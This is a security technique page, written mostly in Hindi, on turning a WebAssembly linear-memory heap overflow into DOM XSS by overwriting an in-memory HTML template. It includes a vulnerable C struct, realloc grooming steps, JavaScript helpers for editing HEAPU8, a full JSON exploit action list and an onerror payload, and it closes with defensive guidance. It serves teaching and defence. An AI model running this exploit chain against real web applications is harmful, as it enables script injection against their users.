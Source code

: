 # WebAssembly linear memory corruption to DOM XSS (template overwrite)

{{#include ../../banners/hacktricks-training.md}}

यह तकनीक दिखाती है कि कैसे Emscripten से कम्पाइल किए गए एक WebAssembly (WASM) मॉड्यूल के अंदर का memory-corruption बग, sanitized input होने पर भी एक भरोसेमंद DOM XSS में बदल सकता है। केंद्रित चाल यह है कि sanitized source string पर हमला करने के बजाय, WASM linear memory में writable constants (उदा., HTML format templates) को भ्रष्ट किया जाए।

Key idea: WebAssembly मॉडल में, code गैर-लिखने योग्य executable pages में रहता है, लेकिन मॉड्यूल का डेटा (heap/stack/globals/"constants") एक ही फ्लैट linear memory में रहता है (pages of 64KB) जिसे मॉड्यूल द्वारा लिखा जा सकता है। अगर buggy C/C++ code out-of-bounds लिखता है, तो आप adjacent objects और यहां तक कि linear memory में embedded constant strings को overwrite कर सकते हैं। जब ऐसा constant बाद में DOM sink के जरिए insertion के लिए HTML बनाने में इस्तेमाल होता है, तब आप sanitized input को executable JavaScript में बदल सकते हैं।

Threat model and preconditions
- Web app Emscripten glue (Module.cwrap) का उपयोग करके एक WASM module को कॉल करता है।
- Application state WASM linear memory में रहता है (उदा., user buffers के pointers/lengths वाले C structs)।
- Input sanitizer storage से पहले metacharacters को encode करता है, लेकिन बाद की rendering, WASM linear memory में stored format string का उपयोग करके HTML बनाती है।
- एक linear-memory corruption primitive मौजूद है (उदा., heap overflow, UAF, या unchecked memcpy).

Minimal vulnerable data model (example)
```c
typedef struct msg {
char *msg_data;       // pointer to message bytes
size_t msg_data_len;  // length after sanitization
int msg_time;         // timestamp
int msg_status;       // flags
} msg;

typedef struct stuff {
msg *mess;            // dynamic array of msg
size_t size;          // used
size_t capacity;      // allocated
} stuff; // global chat state in linear memory
```
कमज़ोर लॉजिक पैटर्न
- addMsg(): sanitized input के आकार का नया buffer allocate करता है और s.mess में msg जोड़ता है, जरूरत पड़ने पर realloc के साथ capacity को दोगुना कर देता है.
- editMsg(): फिर से sanitize करता है और memcpy’s के जरिए नए bytes को मौजूदा buffer में डालता है बिना यह सुनिश्चित किए कि नया लंबाई ≤ पुरानी allocation → intra‑linear‑memory heap overflow.
- populateMsgHTML(): sanitized text को linear memory में मौजूद एक baked stub जैसे "<article><p>%.*s</p></article>" के साथ format करता है. लौटाया गया HTML एक DOM sink (उदा., innerHTML) में जाता है.

Allocator grooming with realloc()
```c
int add_msg_to_stuff(stuff *s, msg new_msg) {
if (s->size >= s->capacity) {
s->capacity *= 2;
s->mess = (msg *)realloc(s->mess, s->capacity * sizeof(msg));
if (s->mess == NULL) exit(1);
}
s->mess[s->size++] = new_msg;
return s->size - 1;
}
```
- प्रारंभिक क्षमता को पार करने के लिए पर्याप्त messages भेजें। वृद्धि के बाद, realloc() अक्सर s->mess को linear memory में अंतिम user buffer के ठीक बाद रखता है।
- editMsg() के जरिए अंतिम message को overflow करें ताकि s->mess के अंदर फ़ील्ड्स को clobber किया जा सके (उदा., msg_data pointers को overwrite करें) → बाद में render होने वाले data के लिए linear memory में arbitrary pointer rewrite।

Exploit pivot: sanitized source की जगह HTML template (sink) को overwrite करें
- Sanitization input को protect करता है, sinks को नहीं। populateMsgHTML() द्वारा उपयोग किया गया format stub ढूँढें, उदाहरण:
- "<article><p>%.*s</p></article>" → change to "<img src=1      onerror=%.*s>"
- Linear memory को scan करके उस stub को deterministic तरीके से locate करें; यह Module.HEAPU8 के भीतर एक plain byte string होता है।
- जब आप stub को overwrite कर देते हैं, तो sanitized message content onerror के लिए JavaScript handler बन जाता है, इसलिए alert(1337) जैसा टेक्स्ट वाला नया message जोड़ने पर <img src=1 onerror=alert(1337)> बनकर तुरंत DOM में execute हो जाता है।

Chrome DevTools workflow (Emscripten glue)
- JS glue में पहले Module.cwrap कॉल पर breakpoint लगाएँ और wasm call site में step into करें ताकि pointer arguments (linear memory के numeric offsets) को capture कर सकें।
- Console से WASM memory पढ़ने/लिखने के लिए Module.HEAPU8 जैसे typed views का उपयोग करें।
- सहायक snippets:
```javascript
function writeBytes(ptr, byteArray){
if(!Array.isArray(byteArray)) throw new Error("byteArray must be an array of numbers");
for(let i=0;i<byteArray.length;i++){
const byte = byteArray[i];
if(typeof byte!=="number"||byte<0||byte>255) throw new Error(`Invalid byte at index ${i}: ${byte}`);
HEAPU8[ptr+i]=byte;
}
}
function readBytes(ptr,len){ return Array.from(HEAPU8.subarray(ptr,ptr+len)); }
function readBytesAsChars(ptr,len){
const bytes=HEAPU8.subarray(ptr,ptr+len);
return Array.from(bytes).map(b=>(b>=32&&b<=126)?String.fromCharCode(b):'.').join('');
}
function searchWasmMemory(str){
const mem=Module.HEAPU8, pat=new TextEncoder().encode(str);
for(let i=0;i<mem.length-pat.length;i++){
let ok=true; for(let j=0;j<pat.length;j++){ if(mem[i+j]!==pat[j]){ ok=false; break; } }
if(ok) console.log(`Found "${str}" at memory address:`, i);
}
console.log(`"${str}" not found in memory`);
return -1;
}
const a = bytes => bytes.reduce((acc, b, i) => acc + (b << (8*i)), 0); // little-endian bytes -> int
```
अंत-से-अंत exploitation नुस्खा
1) Groom: realloc() को ट्रिगर करने के लिए N छोटे संदेश जोड़ें। सुनिश्चित करें कि s->mess एक user buffer के सटे हों।
2) Overflow: अंतिम संदेश पर editMsg() कॉल करें और लंबा payload भेजकर s->mess में एक एंट्री overwrite करें, जिससे message 0 का msg_data (stub_addr + 1) की ओर इशारा करे। +1 अग्रिम '<' को स्किप करता है ताकि अगले edit के दौरान tag alignment बरकरार रहे।
3) Template rewrite: message 0 को edit करें ताकि उसके bytes template को निम्न से overwrite कर दें: "img src=1      onerror=%.*s "
4) Trigger XSS: एक नया संदेश जोड़ें जिसका sanitized content JavaScript हो, जैसे alert(1337)। रेंडरिंग <img src=1 onerror=alert(1337)> निकालती है और यह execute हो जाता है।

Example action list to serialize and place in ?s= (Base64-encode with btoa before use)
```json
[
{"action":"add","content":"hi","time":1756840476392},
{"action":"add","content":"hi","time":1756840476392},
{"action":"add","content":"hi","time":1756840476392},
{"action":"add","content":"hi","time":1756840476392},
{"action":"add","content":"hi","time":1756840476392},
{"action":"add","content":"hi","time":1756840476392},
{"action":"add","content":"hi","time":1756840476392},
{"action":"add","content":"hi","time":1756840476392},
{"action":"add","content":"hi","time":1756840476392},
{"action":"add","content":"hi","time":1756840476392},
{"action":"add","content":"hi","time":1756840476392},
{"action":"edit","msgId":10,"content":"aaaaaaaaaaaaaaaa.\u0000\u0001\u0000\u0050","time":1756885686080},
{"action":"edit","msgId":0,"content":"img src=1      onerror=%.*s ","time":1756885686080},
{"action":"add","content":"alert(1337)","time":1756840476392}
]
```
Why this bypass works
- WASM linear memory से code execution रोकता है, लेकिन linear memory के अंदर का constant data writable हो सकता है अगर program logic buggy हो।
- Sanitizer केवल source string की रक्षा करता है; sink (HTML template) को corrupt करके, sanitized input JS handler value बन जाता है और DOM में insert होने पर execute हो जाता है।
- realloc()-driven adjacency और edit flows में unchecked memcpy pointer corruption को सक्षम करते हैं जिससे writes को attacker-chosen addresses (linear memory के भीतर) पर redirect किया जा सकता है।

Generalization and other attack surface
- linear memory में embedded कोई भी in-memory HTML template, JSON skeleton, या URL pattern target किया जा सकता है ताकि sanitized data downstream में कैसे interpret होता है वह बदल दिया जाए।
- अन्य सामान्य WASM pitfalls: out-of-bounds writes/reads in linear memory, UAF on heap objects, function-table misuse with unchecked indirect call indices, and JS↔WASM glue mismatches।

Defensive guidance
- edit paths में, सुनिश्चित करें कि new length ≤ capacity; copy से पहले buffers को resize करें (realloc to new_len) या size-bounded APIs (snprintf/strlcpy) का उपयोग करें और capacity को ट्रैक करें।
- immutable templates को writable linear memory से बाहर रखें या उपयोग से पहले उनकी integrity जांचें।
- JS↔WASM boundaries को untrusted मानें: pointer ranges/lengths को validate करें, exported interfaces को fuzz करें, और memory growth को cap करें।
- sink पर sanitize करें: WASM में HTML build करने से बचें; innerHTML-style templating के बजाय safe DOM APIs का उपयोग करें।
- privileged flows के लिए URL-embedded state पर भरोसा करने से बचें।

## References
- [Pwning WebAssembly: Bypassing XSS Filters in the WASM Sandbox](https://zoozoo-sec.github.io/blogs/PwningWasm-BreakingXssFilters/)
- [V8: Wasm Compilation Pipeline](https://v8.dev/docs/wasm-compilation-pipeline)
- [V8: Liftoff (baseline compiler)](https://v8.dev/blog/liftoff)
- [Debugging WebAssembly in Chrome DevTools (YouTube)](https://www.youtube.com/watch?v=BTLLPnW4t5s&t)
- [SSD: Intro to Chrome exploitation (WASM edition)](https://ssd-disclosure.com/an-introduction-to-chrome-exploitation-webassembly-edition/)

{{#include ../../banners/hacktricks-training.md}}
